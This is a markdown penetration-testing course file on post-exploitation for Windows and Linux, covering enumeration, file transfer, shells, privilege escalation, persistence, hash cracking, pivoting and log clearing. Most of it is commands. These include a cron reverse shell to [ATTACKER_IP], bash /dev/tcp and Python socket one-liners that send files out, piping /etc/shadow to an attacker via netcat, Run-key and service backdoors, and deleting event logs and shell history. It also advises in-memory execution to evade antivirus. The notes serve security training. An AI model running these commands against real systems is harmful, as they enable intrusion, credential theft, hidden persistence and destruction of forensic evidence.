

# Table of Contents

- [Introduction](#1)
  - [Post-exploitation methodology](#1.1)
- [Local Enumeration](#2)
  - [Windows Local Enumeration](#2.1)
    - [Network information](#2.1.1)
    - [System information](#2.1.2)
    - [Users and groups](#2.1.3)
    - [Processes and services](#2.1.4)
    - [Automating Windows Enumeration](#2.1.5)
  - [Linux Local Enumeration](#2.2)
    - [System information](#2.2.1)
    - [Users and groups](#2.2.2)
    - [Network information](#2.2.3)
    - [Enumerating services, processes and cronjobs.](#2.2.4)
    - [Automating Linux Enumeration](#2.2.5)
- [Transferring Files](#3)
  - [Setting up a web server in Python](#3.1)
  - [Transferring Files to a Windows system](#3.2)
  - [Transferring Files to a Linux system](#3.3)
- [Shells](#4)
  - [Upgrading Shells](#4.1)
- [Privilege Escalation](#5)
  - [Identifying Windows Privilege Escalation Vectors](#5.1)
    - [Escalation Process for Windows](#5.1.1)
  - [Identifying Linux Privilege Escalation Vectors](#5.2)
    - [Weak Permissions](#5.2.1)
    - [Sudo Permissions](#5.2.1)
- [Persistence](#6)
  - [Gaining Persistence in Windows](#6.1)
    - [Persistence Through Services](#6.1.1)
    - [Persistence Through RDP](#6.1.2)
    - [Persistence Through Registry Keys](#6.1.3)
  - [Gaining Persistence in Linux](#6.2)
   - [Persistence Through SSH Keys](#6.2.1)
   - [Persistence Through Cronjobs](#6.2.2)
- [Dumping and Cracking Hashes](#7)
  - [Dumping and Cracking LSASS Hashes](#7.1)
  - [Dumping and Cracking Linux Hashes](#7.2)
- [Pivoting](#8)
- [Destroying the evidence](#9)
  - [Clearing tracks on Windows](#9.1)
  - [Clearing tracks on Linux](#9.1)

<a id=1></a>
# Introduction

In this course we'll learn how to enumerate local information, how to search for privilege escalation vectors,
how to pivot from system to system in-depth, upgrading shells (non-interactive sessions) to interactive shells or
meterpreter shells, dumping and cracking hashes and finally how to clear our tracks in Windows and Linux.

It is the final phase of a penetration test life cycle. It's all the tactics and techniques an attacker does when
they gain initial access to a target system.

This tactics and techniques will further depend on what access you have on the target system and how stealthy you have to
be. You'll be able to use some tools depending on your privileges, and some you may not. For example: if you have access
to a service account in Windows, you won't be able to dump credentials from the SAM database.

<a id=1.1></a>
## Post-exploitation methodology

As we've probably already realized, post-exploitation is a complex stage made out of lots of smaller stages. This means that
as pentesters, we might forget to do some of them. For example, we might forget to clear our tracks. For this, we have to
take a methodological approach to post-exploitation so we don't miss any stage in order to have a correct post-exploitation
phase.

1. Local enumeration: process in which we gain information about a system.
2. Transferring files: process in which we upload files and binaries to a system.
3. Upgrading shells: process in which we get a better shell than we previously had.
4. Privilege escalation: process in which we elevate our privileges to SYSTEM or root privileges.
5. Persistence: process in which we can get continuous access to a system through system reboots and connection issues.
6. Dumping and cracking hashes: process in which we get plaintext credentials to further exploit a system. This stage is not only
present on post-exploitation, as you might get an NTLM hash or TGS (Ticket Granting Service) from Kerberos and stole that from
the network.
7. Pivoting: process in which we scan the network in which a target is located to jump and exploit other machines.
8. Clearing tracks: process in which we clear all evidence about our actions and the fact that we exploited a machine.
*What? I didn't do anything! Check the logs! :)* 


<a id=2></a>
# Local Enumeration

Local enumeration is the process of gathering as much information as possible from a hacked system to get more privileges,
credentials, access to other machines, and a lot more. The process will differ depending on the operating system.

<a id=2.1></a>
## Windows Local Enumeration

<a id=2.1.1></a>
### System information

After gaining initial access to a system, its very important to gain knowledge upon the system. We'll look for hostnames,
operating system version and patches installed, build, service pack, system architecture.

```bash
C:\> hostname
# get hostname
C:\> systeminfo
# get sysinfo
C:\> wmic qfe get Caption,Description,HotFixID,InstalledOn
# get patches installed
C:\> type C:\Windows\system32\eula.txt
# perhaps get some more info on the build version and stuff
C:\> type %SYSTEMDRIVE%\boot.ini
# get boot info
C:\> type %WINDIR%\win.ini
# get windows info
C:\> type %WINDIR%\System32\drivers\etc\hosts
# type the hosts, i.e local DNS entries
C:\>  type %SYSTEMDRIVE%\pagefile.sys
C:\> type %WINDIR%\debug\NetSetup.log
C:\> type %WINDIR%\repair\sam
C:\> type %WINDIR%\repair\system
C:\> type %WINDIR%\repair\software
C:\> type %WINDIR%\repair\security
C:\> type %WINDIR%\iis6.log
C:\> type %WINDIR%\system32\config\AppEvent.Evt
C:\> type %WINDIR%\system32\config\SecEvent.Evt
C:\> type %WINDIR%\system32\config\default.sav
C:\> type %WINDIR%\system32\config\security.sav
C:\> type %WINDIR%\system32\config\software.sav
C:\> type %WINDIR%\system32\config\system.sav
C:\> type %WINDIR%\system32\CCM\logs\*.log
C:\> type %USERPROFILE%\ntuser.dat
C:\> type %USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
# a shit load of important info we may care about. either pull it from the system,
# make a script that will take all this info into a single file and then send it over
# to your system
C:\> driverquery
C:\> fsutil fsinfo drives
C:\> set
C:\> qwinsta
C:\> net time
C:\> net file
C:\> net session
C:\> net use
C:\> driverquery | findstr Kernel
# useful query if looking for kernel exploits :)
```

<a id=2.1.2></a>
### Users and groups

After gaining access to a system, it's always important to learn more about the system. What users access it?
What account am I in control of? What are we looking for?

- Current user and privileges
- Additional user information
- Other users on the system
- Groups 
- Member of the built-in administrators group

```bash
meterpreter > getuid
meterpreter > getprivs
msf6 > use post/windows/gather/enum_logged_on_users
msf6 post(windows/gather/enum_logged_on_users) > set SESSION [SESSION_ID]
# get all users that have logged on to the victim system.
C:\> net user
C:\> net user /DOMAIN
# enumerate all local users and domain users
C:\> whoami /priv
# enumerate user privileges
C:\> whoami /all
# list username and more info
C:\> echo %USERNAME%
# same as whoami but for older systems
C:\> query user
# enumerate logged on users
C:\> net user [USERNAME]
# get more info on [USERNAME].
C:\> net localgroup
# enumerate local groups on a system
```

<a id=2.1.3></a>
### Network information

In this section we'll be looking for network info. This info will be important for the pivoting phase. The info that we're 
looking for is:

- Current IP address and network adapter.
- Internal networks.
- TCP/UDP services running and their respective ports.
- Others hosts in the network.
- Routing table.
- Windows Firewall rules and state.
- Hosts file.

```bash
C:\> ipconfig
C:\> ipconfig /ALL
# query info on the network adapters
C:\> route print
# show routes
C:\> arp -a
C:\> sc queryex type= service state= all
C:\> netstat -ano
# print service information
C:\> netsh firewall show state 
# check firewall state
C:\> netsh advfirewall firewall dump fileName.wfw
C:\> netsh advfirewall firewall export fileName.wfw
# get all the firewall rules. both commands do the same, but it will depend on the
# windows version.
C:\> netsh advfirewall show allprofiles
# check firewall state verbose
C:\> type %WINDIR%\System32\drivers\etc\hosts
C:\> type C:\Windows\System32\drivers\etc\hosts
# print the hosts file. first one is the CMD variable.
```

<a id=2.1.4></a>
### Processes and services

After we gain access to a system, it's always important to gain knowledge on what processes and services are
running on the system. This is important due to several reasons, but some of them are:

- Process migration.
- Injecting malware to processes.
- Privilege escalation possibilities.

Let's see how to do it.
```bash
meterpreter > ps
C:\> tasklist /SVC
# get a list of tasks running (processes)
meterpreter > pgrep [PROCESS_NAME]
# get PID of [PROCESS_NAME]. it's recommended to migrate to a stable process like explorer.exe to avoid
# losing a meterpreter shell.
C:\> net start
# started services on a system    
C:\> wmic service list {brief}
# similar to systemctl list-units.
C:\> schtask /query /fo LIST {/v}
# enumerate all scheduled tasks.
C:\> sc query [SERVICE_NAME]
C:\> sc start [SERVICE NAME]
C:\> sc stop [SERVICE NAME]
# query, start or stop a specific service.
```

<a id=2.1.5></a>
### Automating Windows Enumeration

As pentesters, we have to be time efficient. For that, we have the possibility to use automation tools for enumerating different
information in a system. While knowing how to enumerate information manually is useful, and in some cases the only way in which
we can get any information from a system, automation tools are quicker, and sometimes better.

We'll use the following tools:

- [JAWS (Just Another Windows (Enum) Script)](https://github.com/411Hall/JAWS)
- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- Metasploit Framework

Note: use Ctrl+Shift+Alt to check the Guacamole clipboard.

```bash
msf6 > use post/windows/gather/win_privs
msf6 post(windows/gather/win_privs) > set SESSION [SESSION_ID]
msf6 post(windows/gather/win_privs) > run
msf6 post(windows/gather/win_privs) > use post/windows/gather/enum_logged_on_users
msf6 post(windows/gather/enum_logged_on_users) > set SESSION [SESSION_ID]
msf6 post(windows/gather/enum_logged_on_users) > run
msf6 post(windows/gather/enum_logged_on_users) > use post/windows/gather/checkvm
msf6 post(windows/gather/checkvm) > set SESSION [SESSION_ID]
msf6 post(windows/gather/checkvm) > run
msf6 post(windows/gather/checkvm) > use post/windows/gather/enum_applications
msf6 post(windows/gather/enum_applications) > set SESSION [SESSION_ID]
msf6 post(windows/gather/enum_applications) > run
msf6 post(windows/gather/enum_applications) > use post/windows/gather/enum_computers
msf6 post(windows/gather/enum_computers) > set SESSION [SESSION_ID]
msf6 post(windows/gather/enum_computers) > run
msf6 post(windows/gather/enum_computers) > use post/windows/gather/enum_patches
msf6 post(windows/gather/enum_patches) > set SESSION [SESSION_ID]
msf6 post(windows/gather/enum_patches) > run
msf6 post(windows/gather/enum_patches) > use post/windows/gather/enum_shares
msf6 post(windows/gather/enum_shares) > set SESSION [SESSION_ID]
meterpreter > cd C:\\
meterpreter > mkdir Temp
meterpreter > cd Temp\\
meterpreter > upload jaws-enum.ps1
meterpreter > upload winpeas.ps1
meterpreter > shell
C:\> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws-enum.txt
C:\> powershell.exe -ExecutionPolicy Bypass -File .\winpeas.ps1 -OutputFilename winpeas.txt
```


<a id=2.2></a>
## Linux Local Enumeration

In Linux, we will be searching for the following:

- Hostname.
- Distribution and distribution release.
- Kernel version and architecture.
- CPU information.
- Disk information and mounted drives.
- Installed packages and software.
- Network information.
- Passwords, hashes and user accounts.
- Vulnerable SUID binaries.
- Cron tasks.

<a id=2.2.1></a>
### System information

Let's start enumerating some shtuff.

```bash
$ hostname
$ cat /etc/passwd
$ cat /etc/*issue
$ cat /etc/*release
$ uname {-a|-r}
$ env
$ lscpu || cat /proc/cpuinfo
$ free -h || cat /proc/meminfo
$ df -h || df -ht [FILESYSTEM]
$ lsblk || cat /etc/fstab
$ dpkg -l || pacman -Qen || dnf list installed || yum list installed
# will depend on distro
```

Note: I have [another repo](https://github.com/ssepi0l-pv/nerd-notes/blob/master/InfoSec/PrivEsc/LINUX_README.md) which talks a little bit on
this topic. 

<a id=2.2.2></a>
### Users and groups

Let's hunt.

```bash
$ whoami
$ id
$ groups [USERNAME]
$ cat /etc/passwd
$ cat /etc/passwd | grep -v /nologin
$ cat /etc/shadow 
# if possible
$ cat /etc/group
$ who
$ last
$ lastlog
```

<a id=2.2.3></a>
### Network information

```bash
$ ip a
$ ip link
$ cat /etc/hosts
$ netstat -tl
$ ip route show 
$ cat /etc/resolv.conf
$ arp -a || ip neigh
# depends on whether arp is installed or not
```

<a id=2.2.4></a>
### Enumerating services, processes and cronjobs.

```bash
$ systemclt list-units
$ ps aux
$ ps aux | grep [SERVICE_NAME/PROCESS_NAME]
# get process by name
$ ls /proc -la || top
# check running processes without ps
$ crontab -l
$ ls /etc/*cron*
```

<a id=2.1.5></a>
### Automating Linux Enumeration

We learnt how to enumerate files and important information on a Linux system, but this is time consuming and sometimes we can
automate this tasks with tools like the following:

- [LinEnum](https://github.com/rebootuser/LinEnum)
- [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- Metasploit Framework

```bash
msf6 > use post/linux/gather/enum_configs
msf6 post(linux/gather/enum_configs) > set SESSION [SESSION_ID]
msf6 post(linux/gather/enum_configs) > run
msf6 post(linux/gather/enum_configs) > use post/linux/gather/enum_networks
msf6 post(linux/gather/enum_networks) > set SESSION [SESSION_ID]
msf6 post(linux/gather/enum_networks) > run
msf6 post(linux/gather/enum_networks) > run
msf6 post(linux/gather/enum_networks) > use post/linux/gather/enum_system
msf6 post(linux/gather/enum_system) > set SESSION [SESSION_ID]
msf6 post(linux/gather/enum_system) > run
msf6 post(linux/gather/enum_system) > use post/linux/gather/checkvm
msf6 post(linux/gather/checkvm) > set SESSION [SESSION_ID]
msf6 post(linux/gather/checkvm) > run
meterpreter > cd /tmp
meterpreter > upload linpeas.sh
meterpreter > upload linenum.sh
$ chmod +x linpeas.sh linenum.sh
$ ./linpeas.sh > lin-peas
$ ./linenum.sh > lin-enum
```

<a id=3></a>
# Transferring Files

After gaining initial access to a system, we'll almost always need to transfer files over. And sometimes, we won't have access
to a Meterpreter shell and as a result, we will learn to live off the land. We have to learn how to use existing binaries to 
upload and download files and binaries. 

This is a two step approach where we create a server and then upload/download it.

<a id=3.1></a>
## Setting up a web server in Python

We'll need to have Python 2 (SimpleHTTPServer) or Python 3 (http.server) installed in our machines or the attacker machine.
We can use this module to create an HTTP server and download files.

```bash
$ python2 -m SimpleHTTPServer [PORT]
$ python3 -m http.server [PORT]
```

This is okay for a home lab, but in a real pentest I'd use another tool.

<a id=3.1></a>
## Setting up a web server in Ngrok

Ngrok is more than a web server. You can go ahead to the Ngrok's webpage and check that it's actually used for, but we'll
weaponize this tool :)

```bash
$ pacman -S Ngrok
$ ngrok add-authtoken [AUTH_TOKEN]
$ ngrok http 80
```

And you're done :) use this for CTFs or pentests.

<a id=3.2></a>
## Transferring Files to a Windows system

It's quite an easy task to do, more so in newer Windows systems. Powershell has given us red teamers a lot of tools to work with,
that isn't good from a defender perspective, but thanks Microsoft, I guess.

```bash
PS C:\> curl [URL] -OutFile C:\path\to\save
C:\> bitsadmin /transfer debjob /download /priority normal [URL] C:\path\to\save
# for those who don't know: using the certutil binary in Windows 7 or previous is a tough job. so go with BITSadmin.
C:\> certuitl -urlcache -f [URL] C:\path\to\save
# classic certutil.
PS C:\> Invoke-WebRequest [URL] -UseBasicParsing -o C:\path\to\save
PS C:\> Invoke-WebRequest [URL] -UseBasicParsing -OutFile C:\path\to\save
PS C:\> curl [URL] -UseBasicParsing -OutFile C:\path\to\save
# same thing :) curl in windows is an alias for Invoke-WebRequest.
PS C:\> Invoke-RestMethod [URL] -o C:\path\to\save
PS C:\> Invoke-RestMethod [URL] -OutFile C:\path\to\save
```

As we can see, there are a lot of ways in which we could download files from a webpage. If we are smart, we won't download any file,
but rather we'd pass them to the Invoke-Expression built-in module of Powershell. Thus, our program would run in memory, which as we
know from the AV evasion, it's easier to conceal, or rather harder to detect by an AV solution :)

<a id=3.3></a>
## Transferring Files to a Linux system

This task is also quite simple in most cases. Although in some restricted shells we won't have
the ability to download files, at least not in a typical fashion.

```bash
$ wget [URL] -o /path/to/save
$ wget [URL] --output-file /path/to/save
$ curl -X GET [URL] -o /path/to/save
$ curl -X GET [URL] --output-file /path/to/save
# next up we'll see how to do it without any curl or wget tools:b
$ nc -nlvp [PORT] < [FILE] # attacker machine
$ cat 0<>/dev/tcp/[ATTACKER_IP]/[ATTACKER_PORT] > recv.txt
# this will allow us to send a file using netcat on our end and using the built-in socket
# functionality in bash. you'll have to press C^c on the attacker machine after the conneciton is made, due to the use
# of the <> redir key usage. if you were to change the cat binary for say, "echo", it wouldn't work. we're using the
# cat stdin if-no-file functionality to receive and write a file from a remote socket.
# this can also be used in reverse: the victim sending files to the attacker. let's see how that would work.
$ nc -nlvp [PORT] > [FILE] # attacker machine
$ bash -c "cat [FILE]" > /dev/tcp/[ATTACKER_IP]/[ATTACKER_PORT] # victim machine
# this could be useful in certain embedded devices, where every single byte of memory available to the service running is useful,
# so this machines usually don't have many user-friendly binaries, as they aren't interacted with that much, or at all. nevertheless,
# exploiting embedded devices is really useful and should be a part of our knowledge, as they are usually vulnerable to simple attacks,
# or rather old attacks.
# and by the way, the methods i'm showing here are NOT the only ones available. this are just simple commands I made in a couple minutes,
# so maybe some betters do exist. try to invest something! :)
```

If all that sounds like a hassle AND you have a Python interpreter available, try the following:
```python
import socket;file=open('FILENAME', 'r');socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP", PORT));s.send(bytes(file));s.close()
```

Keep it as a one liner to avoid shell issues on your target. Run it with `python -c 'CODE'`. 

<a id=4></a>
# Shells

<a id=4.1></a>
## Upgrading Shells

When we exploit a system, we won't usually see a prompt, tab completion, keybinds and more. However, this can be set and fixed.
How?! Let's see how.

```bash
# an empty void is what you'd see when you get a shell...
/bin/bash -i
$ echo "we have a shell!"
# that's one way
echo /etc/shells
# try the ones that appear in that file :)
python -c 'import pty; pty.spawn("/bin/bash")'
$ echo "python shell!"
# usually python shells are more interactive than typical socket shells. 
$ export TERM=xterm
$ env
# check if PATH is set. if not, set it.
$ export PATH=/usr/local:/bin:/usr/bin:/usr/sbin:/sbin:
# :)
```

You could try to get a Meterpreter session? Yes. But you'd have to upload a payload, and we have to be careful with what we execute
on a target. Maybe it has an AV, so check for that :)

<a id=5></a>
# Privilege Escalation

Privilege escalation is the sub-phase in the Post-exploitation stage where an attacker searches a vulnerability that will allow him to
elevate his privileges to the highest degree possible in the given system. Of course, if at initial access we already have the highest privileges,
then we can omit this phase.

Process will differ from machine to machine, and operating system to operating system. The process can be tedious and time consuming.

<a id=5.1></a>
## Identifying Windows Privilege Escalation Vectors

Note: check the Metasploit `web_delivery` module.

Within Windows, we can use the [PrivEscCheck](https://github.com/itm4n/PrivescCheck) tool to scan for possible escalation vectors, similar to what WINpeas.
How you run this script will depend on the shell you currently have. Check the linked repo for more info.

<a id=5.1.1></a>
### Escalation Process for Windows

Again, this process will depend on what you find. Sometimes you'll get the cleartext password of the local administrator, and all you'll
have to do is login!

<a id=5.2></a>
## Identifying Linux Privilege Escalation Vectors

There are *a lot* of privilege escalation techniques in Linux. We'll look at weak permissions and sudo permissions.

<a id=5.2.1></a>
### Weak Permissions

Sometimes a system administrator might misconfigure file permissions. A other times, this can be used in our advantage. Check your
shadow file...

```bash
$ openssl -passwd -[HASHING_ALGOS] -salt [SALT] [CLEARTEXT_PASSWORD]
# create a passwd password
$ find [PATH] -type f -perm -o+w
# find writable files within a PATH
$ find [PATH] -type d -perm -o+w
# find writable directories within a PATH
$ find [PATH] -type f -perm -o+x
# find executable files within a PATH
$ find [PATH] -type f -perm -u+w -perm -+s
# find executables with the setuid bit SET within a PATH
$ find [PATH] -type f -perm -o+w -user [USERNAME]
# find writable files within FATH owned by USERNAME
```

<a id=5.2.1></a>
### Sudo Permissions

Sometimes an administrator might give a particular user access to the sudo command, and maybe he doesn't want to run it and
pass his password all the time, because that's such a hassle, right? Well, many binaries allow command execution. Say we give
NOPASSWD permissions to the Man binary. We're screwed, since the user can run commands with the `!` flag within a manpage.

This occurs with many binaries, but you'll have to find them. `sudo -l` bros...

<a id=6></a>
# Persistence

Persistence is the process in which an attacker gains uninterrupted access to a system, even in reboots, vulnerability patching and more.
This means that an attackers "hangs himself" tightly to another process or service, most times legitimate ones to leverage control over
a system.

We also have to take into consideration that the persistence technique that we might use will be directly related with what the client
allows us to do. They might not want us to create obscure registry keys that are hard to find, so we might have to find other ways to
gain persistence.

<a id=6.1></a>
## Gaining Persistence in Windows

<a id=6.1.1></a>
### Persistence Through Services

As we already know how to do this via the Metasploit Framework (using the persistence_service module) we'll learn how to do it by hand.

```bash
C:\> sc.exe create [SERVICE_NAME] binpath="C:\path\to\executable"
# this backdoor file can be something like an msfvenom payload meterpreter file, or a custom C callback-home binary, which tries to
# connect to the attacker machine constantly. revshells might help you...
```

<a id=6.1.2></a>
### Persistence Through RDP

Again, we know how to do this via Metasploit, but let's learn how to do it manually.

```bash
C:\> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
C:\> netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
# this will enable RDP and configure the firewall (if enabled).
# now we can: create a user or use an existing one. thats up to you.
meterpreter > run getgui -e -u [USERNAME] -p [PASSWORD] 
# this will run the getgui depracated meterpreter script. its still useful and usable.
# it'll enable RDP, create a user and enable the firewall.
```

<a id=6.1.3></a>
### Persistence Through Registry Keys

This persistence technique is useful when we can't create services or directly add administrative registry keys. Nevertheless, we can edit
some keys for the HKCU (Current User).

The ones that we will target as a non-privileged user are the following:

- HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
- HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce

Before changing anything, let's see how registry keys run at boot and their respective order.



*Credit to the guys at https://juggernaut-sec.com/*

With that said, lets do some registry modifications!

```bash
C:\> reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v [KEY_NAME] /t REG_SZ /d "C:\path\to\executable"
# and we're good to go. lets see the administrative registry keys!
```

The keys we will target if we have administrative privileges are the following:

- HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
- HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce

Something I forgot to tell you is that the difference between the "Run" and "RunOnce" keys is that the RunOnce gets deleted after the
program has been executed. Useful so we aren't leaving any artifacts behind, but dangerous if we lose connection after the key was
deleted :(

Let's see how to do it.

```bash
C:\> reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v [KEY_NAME] /t REG_SZ /d "C:\path\to\executable"
# simple as.
```

There are many other ways to gain persistence on Windows, but I won't put them all in this section. But! I will give you this resource
so you, as well as I, can read later: https://juggernaut-sec.com/windows-persistence-manual-techniques/#Persistent_Startup_Registry_Keys_Elevated_User

<a id=6.2></a>
## Gaining Persistence in Linux

<a id=6.2.1></a>
### Persistence Through SSH Keys

We know what SSH is, but we don't really know what SSH keys are. Keys are used to connect between administrators and systems without a
password, but only permitted between `n` allowed individuals. SSH can be configured to only allow connections using a public key and/or a
private key. We may get credentials to a system, but if the SSH service is correctly configured, we will need keys, otherwise they credentials
are useless.

Usually the private keys are called `id_rsa` and public keys are called `id_rsa.pub`. When you download a key, remember to run `chmod 400 [KEY]`
Use a key with `ssh -i [KEY] [USER]@[HOST]`

<a id=6.2.2></a>
### Persistence Through Cronjobs

We know what cronjobs are, so let's jump right into the action.

```bash
$ crontab -l
# list all crontab jobs
$ echo "* * * * * /bin/bash -c "bash -i >& /dev/tcp/[ATTACKER_IP]/[ATTACKER_PORT] 0>&1" > [FILENAME]"
# this is an example payload.
$ crontab -i [FILENAME]
# add the created payload to the crontab.
```

<a id=7></a>
# Dumping and Cracking Hashes

<a id=7.1></a>
## Dumping and Cracking LSASS Hashes

As we know, the SAM database is locked while the system is on, meaning that we cannot open it ourselves, unlike the Shadow file
in Linux. However, with sufficient permissions, we can dump the hashes from the LSASS process. 

I'll just teach the process of cracking these hashes, as we already know how to dump them.

```bash
$ john --format=NT --wordlist=/path/to/words [NTLM_FILE]
$ hashcat -a3 -m 1000 [NTLM_FILE] [WORDLIST]
```

<a id=7.2></a>
## Dumping and Cracking Linux Hashes

We know how Linux passwords are hashed, the hashing algorithms that it uses, but I'll talk about something else.
It doesn't matter if the Shadow file is "readable". It's only readable for privileged users, which in a corporate
environment *should* be as few as possible, even if more users access the server, as some of us may know by the principle
of least privilege.

Let's see how to crack hashes...

```bash
$ nc [ATTACKER_IP] [ATTACKER_PORT] < /etc/shadow
# sample of how you'd steal the shadow file. less noisy than running SCP, and honestly cooler.
$ unshadow [PASSWD_FILE] [SHADOW_FILE]
# "unshadow" the shadow file.
$ nc --format [FORMAT] [SHADOW_FILE] --wordlist [WORDS]
# the format in this case will vary on the hashing algorithm used in the shadow file. you may not pass 
# a --format flag, but sometimes JTR will not recognize the hashing algo.
$ hashcat -a3 -m 1800 [SHADOW_FILE] [WORDS]
```

<a id=8></a>
# Pivoting

Pivoting, as we know, is a post-exploitation technique that involves using an already compromised system to access an
internal network and keep rolling. This can be seen in two ways:

A compromised system becomes a proxy. We route all our connections to the internal network through it. There are lots of
different pivoting techniques, and Metasploit does offer a very simple but effective one, but let's learn others.

@t3l3machus has a great guide on pivoting [here](https://github.com/t3l3machus/pentest-pivoting). Read it and enjoy it!
Other resource that I found was this [one](https://zindagitech.com/hacking-methodology-how-to-do-network-pivoting/).

If you have the possibility to use the Meterpreter pivoting system, please do. It's very easy and consistent to use. The 
issue with it is that every respectable antivirus (and let's not even talk about EDRs) will flag a msfvenom payload as
malicious. Maybe if you encode it, encrypt it, use a template on it with a program that will guarantee you that the executable
will keep it's original functionality, maybe you can trick a couple AVs. But you won't be evading anything really :)


<a id=9></a>
# Destroying the evidence

Clearing the evidence that we were in any machine is one of the most important steps of a pentest, or of an attack in general.
Threat actors usually don't want anyone to know that they were inside a system. This is a mixture of both evasion and evidence
burning, so to speak. The Kali phrase is true: "the quieter you become, the more you're able to hear", as cringy as it sounds.

This process is part of a bigger thing: anti-forensics. But we won't talk about that here.

<a id=9.1></a>
## Clearing tracks on Windows

In Windows we must take care of the event logs, mostly. But we also need to delete everything related to us from the system. That is,
accounts, groups, payloads, binaries, everything that **we** created must be deleted. Of course, if you start deleting native users,
that is, users that existed before you accessed the system, then people might suspect something is going on, and we don't want that.

NOTE: Whether you delete the events is not up to you! Talk with your client and establish the rules of engagement! Don't get in trouble.

```bash
C:\> wevtutil el
# lists all event logs
C:\> webtutil cl [EVENT_LOG]
# delete EVENT_LOG. usually: Application, Security and System.
C:\> cd C:\WINDOWS\system32\config 
# contains the event logs :) you need SYSTEM privilege, though.
meterpreter > clearev
meterpreter > resource [RC_SCRIPT]
# depending on whether you gained access to the system with metasploit or not, you may have some simple, easy
# to use and dependable tools at your disposal to clear tracks, delete persistence and more.
```

Remember your persistence technique. Did you add an SSH key? A service? Delete it. Delete all access you have, you're clearing tracks, getting
out.


Note: files in Windows aren't really deleted. Rather, a special character is put alongside the data itself in the MFT (Master File Table)
and set as free space, even though the files still exist.

<a id=9.2></a>
## Clearing tracks on Linux

Pretty similar to Windows, we need to clear event logs, files, binaries, users, groups and everything **we** created.
Let's see how.

```bash
$ journalctl --vacuum-time=[TIME]
# time is defined in [h]ours, [d]ays, [m]onths, [y]ears.
$ journalctl --vacuum-size=[SIZE]
# size is defined in [b]ytes, [k]ilobytes, [m]egabyte, etc.
# delete the history file that contains your commands. 
$ dmesg -c
# clear the dmesg logs. useful for systems that never shut down (prod systems)
$ ls /var/log/
# delete the events of the services you used. for example, if you brute forced ssh credentials, 
# delete those events. either one by one, or everything at once.
# just dont delete the entire /log/ directory,
$ shred -zu .bash_history && shred -zu .zsh_history
$ shred -zu [FILE]
# SHRED your stuff, dont rm it.  shred (with the given flags) overwrite a given file with zeros and then delete it.
```

Other clearing techniques are usually associated with different attacks and different services, so be careful.
